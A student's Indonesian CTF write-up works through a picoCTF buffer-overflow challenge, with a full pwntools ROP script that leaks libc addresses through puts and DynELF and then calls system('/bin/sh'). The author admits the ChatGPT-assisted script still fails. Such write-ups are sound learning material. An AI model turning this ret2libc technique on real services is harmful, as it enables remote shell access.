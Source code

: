 # Write Up Here a Libc

Step pertama yang saya coba adalah dengan menjalankan program dengan connect ke remote server yang disediakan. 

<div align="center">
  <img src="https://github.com/user-attachments/assets/14bdca32-f80e-4890-bba7-7003b082a89b">
</div>
</br>

Dari foto di atas, saya mengetahui bahwa program ini merubah input text yang dimasukkan oleh user menjadi uppercase di huruf yang ganjil dan lowercase di huruf yang genap.

Lalu, saya mencoba untuk membuka program dengan Ghidra. Pada fungsi **main**, saya mengetahui bahwa dia memanggil fungsi **do_stuff()** yang disimpan dalam do while.

<div align="center">
  <img src="https://github.com/user-attachments/assets/95b39820-4de7-47ac-b831-de0a515656be">
</div>
</br>

Berikut adalah fungsi **do_stuff()**:

<div align="center">
  <img src="https://github.com/user-attachments/assets/b38a0f05-93f1-4229-a819-50d661c9cafd">
</div>
</br>

Berdasarkan decompiled code fungsi **do_stuff()**, ada kemungkinan buffer overflow pada fungsi scanf pertama yang ini adalah input dari user dengan buffer 112 dari local_88. Lalu, pada for loop, huruf yang di convert_case hanya sampai < 100.

Saat saya mencoba input string random untuk mencoba buffer overflow, terjadi segmentation fault.

<div align="center">
  <img src="Screenshot 2024-11-28 021056](https://github.com/user-attachments/assets/c01e2b64-54ad-4c78-b61f-fb9b7ab44a79">
</div>
</br>

Selanjutnya saya mencoba untuk menjalankan di gdb dengan cara yang sama dengan foto di atas. Awalnya saya bingung karena sudah lebih banyak dari buffer (112) tapi nilai di rip belum berubah.

<div align="center">
  <img src="https://github.com/user-attachments/assets/e50750d4-2653-4911-b511-e9df98805054">
</div>
</br>

Karena saya skill issue dan bingung kenapa saat saya menggunakan **gdb gef** tidak berubah juga rip nya (mungkin payload nya salah atau kurang panjang) dan tidak menemukan offset, saya mencari write up di Youtube dan meminta bantuan ChatGPT. Berdasarkan GPT dan video di Youtube, saya akhirnya menggunakan **pwntools cyclic** untuk menemukan offset dari buffer overflow yang ingin dilakukan. Berikut code nya:

```python
from pwn import *

binary = './vuln'
elf = ELF(binary)
context.binary = binary

p = process(binary)

payload = cyclic(200)
p.sendlineafter(b'WeLcOmE To mY EcHo sErVeR!', payload)

p.wait()
core = p.corefile

offset = cyclic_find(core.read(core.rsp, 4))
log.info(f"Offset found: {offset}")
```

Saya menjalankan scriptnya di kali linux karena di windows ternyata error dan harus di linux. Ini offsetnya:

<div align="center">
  <img src="https://github.com/user-attachments/assets/03b0e75b-3745-46fc-b81d-87cd27fa54e3">
</div>
</br>

Note 1: Saya ingin jujur ko, di step yang akan dijelaskan selanjutnya, saya mengikuti bantuan ChatGPT terutama dalam pembuatan script.

Note 2: Script yang saya buat dengan bantuan GPT, saat dijalankan selalu mengalami error. Tetapi, di bawah akan saya jelaskan ide dari script yang saya buat. Maaf, ko.

Selanjutnya, setelah mengetahui offset, saya mencari address dari fungsi-fungsi yang ada di libc. Tujuan akhir alamat yang ingin diambil adalah alamat fungsi **system**. Selain fungsi, string **/bin/sh** juga saya cari untuk menjalankan shell di remote server.

Selanjutnya, saya dengan bantuan ChatGPT membuat script untuk eksploitasinya. Pertama, saya membuat fungsi `leak` yang berfungsi untuk nge-leak address dari fungsi yang ada di libc dengan ROP. Fungsi ini akan mengembalikan alamat yang di-leak.

```python
def leak(address):

    log.info(f"Leaking data from address: {hex(address)}")
    
    rop = ROP(elf)
    rop.call(elf.plt['puts'], [address])  # Memanggil puts(address)
    rop.call(main_addr)  # Kembali ke main setelah memanggil puts

    payload = flat({offset: rop.chain()})
    p.sendlineafter("WeLcOmE To mY EcHo sErVeR!", payload) 
    p.recvline()
    leaked_data = p.recvline().strip()
    
    log.info(f"Leaked data: {leaked_data}")
    return leaked_data.ljust(8, b'\x00')  
```

Secara garis besar, fungsi di atas bekerja dengan membuat ROP chain dengan berisi fungsi `puts` pada plt dan address `main` lalu payload dikirim dan server akan mengembalikan address `puts` dari libc.

Selanjutnya, saya membuat fungsi `dynelf_exploit` untuk mendapatkan alamat fungsi `system` dan string `/bin/bash`.

```python
def dynelf_exploit():

    log.info("Starting DynELF...")
    dynelf = DynELF(leak, elf=elf)  # Inisialisasi DynELF dengan fungsi leak
    system_addr = dynelf.lookup('system', 'libc')  # Cari alamat fungsi system
    bin_sh_addr = next(dynelf.iter_strings('/bin/sh'))  # Cari string '/bin/sh'
    log.success(f"system: {hex(system_addr)}, /bin/sh: {hex(bin_sh_addr)}")
    return system_addr, bin_sh_addr
```

Fungsi di atas akan menggunakan DynELF untuk memanggil fungsi leak dengan binary ELF dari binary yang didapat dari soal. Setelah mendapatkan address dari fungsi `leak`, dicari address dari `system` dan `/bin/sh`. Lalu, fungsi ini akan me-return kedua address tersebut.

Pada fungsi `exploit` ini, saya mulai eksploitasi. 

```python
def exploit():

    system_addr, bin_sh_addr = dynelf_exploit()

    log.info("Sending final payload to spawn shell...")
    rop = ROP(elf)
    rop.call(system_addr, [bin_sh_addr])  # Memanggil system("/bin/sh")
    final_payload = flat({offset: rop.chain()})
    p.sendlineafter("WeLcOmE To mY EcHo sErVeR!\n", final_payload)

    # Berikan shell interaktif
    p.interactive()
```
Fungsi ini akan pertama-tama mencari address dari `system` dan `/bin/sh` menggunakan fungsi `dynelf_exploit` di atas. Selanjutnya menggunakan ROP yang berisikan `system("/bin/sh")` sebagai payload yang akan dikirimkan dan mendapatkan shell.

Tetapi, dari code ini, masih terjadi error yang saya juga bingung solve nya bagaimana. Berikut errornya:

<div align="center">
  <img src="https://github.com/user-attachments/assets/71c5da90-7308-41b4-8fc2-77edc1309386">
</div>
</br>

Error ini terjadi ketika script sudah mendapatkan beberapa address, lalu terjadi error ini. Mohon maaf ko, saya sudah berusaha. Jika saya ada ide untuk solve ini, saya akan edit write up ini.

### FULL SCRIPT CODE

```python
from pwn import *

binary = './vuln'  # Nama binary
elf = ELF(binary)
context.binary = elf

# Alamat GOT dari puts dan fungsi main
puts_got = elf.got['puts']
main_addr = elf.symbols['main']

# Offset buffer overflow
offset = 136

# Remote target
p = remote('mercury.picoctf.net', 49464)

def leak(address):

    log.info(f"Leaking data from address: {hex(address)}")
    
    rop = ROP(elf)
    rop.call(elf.plt['puts'], [address])  # Memanggil puts(address)
    rop.call(main_addr)  # Kembali ke main setelah memanggil puts

    payload = flat({offset: rop.chain()})
    p.sendlineafter("WeLcOmE To mY EcHo sErVeR!", payload) 
    p.recvline()
    leaked_data = p.recvline().strip()
    
    log.info(f"Leaked data: {leaked_data}")
    return leaked_data.ljust(8, b'\x00')  

def dynelf_exploit():

    log.info("Starting DynELF...")
    dynelf = DynELF(leak, elf=elf)  # Inisialisasi DynELF dengan fungsi leak
    system_addr = dynelf.lookup('system', 'libc')  # Cari alamat fungsi system
    bin_sh_addr = next(dynelf.iter_strings('/bin/sh'))  # Cari string '/bin/sh'
    log.success(f"system: {hex(system_addr)}, /bin/sh: {hex(bin_sh_addr)}")
    return system_addr, bin_sh_addr

def exploit():
   
    # Mulai eksploitasi dengan DynELF
    system_addr, bin_sh_addr = dynelf_exploit()

    # Payload akhir untuk memanggil system("/bin/sh")
    log.info("Sending final payload to spawn shell...")
    rop = ROP(elf)
    rop.call(system_addr, [bin_sh_addr])  # Memanggil system("/bin/sh")
    final_payload = flat({offset: rop.chain()})
    p.sendlineafter("WeLcOmE To mY EcHo sErVeR!\n", final_payload)

    # Berikan shell interaktif
    p.interactive()

if __name__ == "__main__":
    exploit()

```








